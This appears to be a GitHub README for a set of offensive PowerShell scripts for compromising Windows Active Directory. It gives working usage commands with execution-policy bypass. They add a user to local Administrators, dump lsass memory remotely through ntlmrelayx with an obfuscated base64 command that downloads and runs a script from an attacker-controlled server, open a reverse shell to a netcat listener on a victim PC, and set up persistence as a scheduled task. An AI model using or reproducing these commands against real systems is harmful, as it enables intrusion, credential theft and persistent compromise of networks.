 # PowershellScripts #

**Useful scripts for pwn Windows AD**

**Runas.ps1** - Easy script for start anything from cmd

``Example: powershell -exec bypass ./psrunas.ps1 -username user -password password -command cmd.exe -argument "/c whoami > test.txt"``

**startprocess.ps1** - An example of how to redirect output when launching a third-party application.

**getlocalgroups.ps1** - Get the list of groups (if you cant use net group...)

**getadmin.ps1** - Add user to group Administrators or Администраторы on localmachine

``Example: powershell -exec bypass ./getadmin.ps1 -Account username``

**remotepd.ps1** - Useful for getting dump the lsass memory in external computer by ntlmrelayx

``Example: ntlmrelayx.py --no-http-server -smb2support -t your_target -c 'powershell  -Enc aQBlAHgAKABOAEUAVwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4ARABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvAHkAbwB1AHIAcwBlAHIAdgBlAHIALwByAGUAbQBvAHQAZQBwAGQALgBwAHMAMQAnACkACgA=' ``

``where base64 is: "iex(NEW-Object Net.WebClient).DownloadString('http://yourserver/remotepd.ps1')" ``

**shell.ps1** - Simple PS shell from https://gist.github.com/ohpe/bdd9d4385f8e6df26c02448f1bcc7a25 

 - Some Problem: Windows Defender block this shell script (30.10.19)

``Example: run nc -lvp 443 on your PC and run powerhsell -exec bypass shell.ps1 on victim PC``

**scheduler.ps1** - Add your PS script to Windows Scheduler. Sched start every 1 min

``In scheduler.ps you must set path to script: $Action = New-ScheduledTaskAction -Execute 'powershell.exe' -Argument '-exec bypass c:\temp\_your_scrip.ps1'``


# Wish #

Find all intresting files|history log on local machine and domain
MsExchange attacks
